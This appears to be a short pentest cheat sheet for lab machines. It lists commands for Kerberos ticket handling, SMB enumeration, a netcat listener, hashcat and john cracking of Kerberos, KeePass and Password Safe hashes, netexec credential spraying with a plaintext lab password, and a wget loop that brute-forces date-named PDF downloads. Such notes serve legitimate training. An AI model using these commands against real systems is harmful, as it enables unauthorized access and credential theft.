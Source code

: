 ### base64
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

### enum4linux
```
enum4linux -a 10.10.11.108
```

### netcat
```
sudo nc -lvnp 389
```

### hashcat
```
hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt

# kerberos
hashcat -a 0 -m 13100 ethan /usr/share/wordlists/rockyou.txt

# as rep roasting
hashcat --help | grep Kerberos
hashcat -m 18200 hash.txt -o pass.txt /usr/share/wordlists/rockyou.txt --force

hashcat -m 13400 CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
```

### pwsafe
```
pwsafe Backup.psafe3
```

### netexec
```
netexec smb 10.10.11.42 -u user.txt -p pass.txt
netexec smb 10.10.10.182 -u r.thompson -p 'rY4n5eva'
```

### john
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john support_hash --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt
```

### 파일 다운로드
```
d=2020-01-01; while [ "$d" != "$(date -I)" ]; do echo "http://10.10.10.248/Documents/$d-upload.pdf"; d=$(date -I -d "$d + 1 day"); done | xargs -n 1 -P 20 wget -q 2>/dev/null
```
